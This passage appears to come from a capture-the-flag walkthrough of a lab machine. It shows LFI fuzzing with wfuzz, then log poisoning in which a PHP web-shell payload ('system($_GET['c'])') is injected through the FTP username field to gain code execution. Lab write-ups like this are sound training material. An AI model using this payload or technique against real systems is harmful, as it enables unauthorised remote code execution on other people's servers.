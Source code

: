 The response is empty, but we got the 200 status code. Perhaps we can only include specific file to read. Let’s fuzz it find what can we read.

```other
⛩\> wfuzz -c -w ~/tools/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt --hl 367 http://10.129.186.91/admin../admin_staging/index.php?page=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.186.91/admin../admin_staging/index.php?page=FUZZ
Total requests: 914

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000733:   200        413 L    1670 W     19803 Ch    "/var/log/vsftpd.log"
000000734:   200        561 L    1386 W     169651 Ch   "/var/log/wtmp"

Total time: 0
Processed Requests: 914
Filtered Requests: 912
Requests/sec.: 0
```

We can read only two specific log files. There is a possibility of ‘Log Poisoning’ via FTP.

![Screen Shot 2021-07-22 at 00.21.01.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/3D008D7E-7603-4835-8137-25962C5EF0D6_2/Screen%20Shot%202021-07-22%20at%2000.21.01.png)

![Screen Shot 2021-07-22 at 00.31.11.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/883E78D7-B1D7-404C-ADAB-3FE2B748CFBC_2/Screen%20Shot%202021-07-22%20at%2000.31.11.png)

As we already know that PHP is used to develop this site, so we can tamper the logs with PHP code to get RCE and this can be done via username field. When we inject PHP code in username field and it will be recorded in the logs and we access the logs via LFI the code gets executed.

# Initial Access

```other
⛩\> ftp 10.129.95.157 21
Connected to 10.129.95.157.
220 (vsFTPd 3.0.3)
Name (10.129.95.157:kali): '<?php system($_GET['c']); ?>'
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp>
```

We will pass the PHP code in username field.

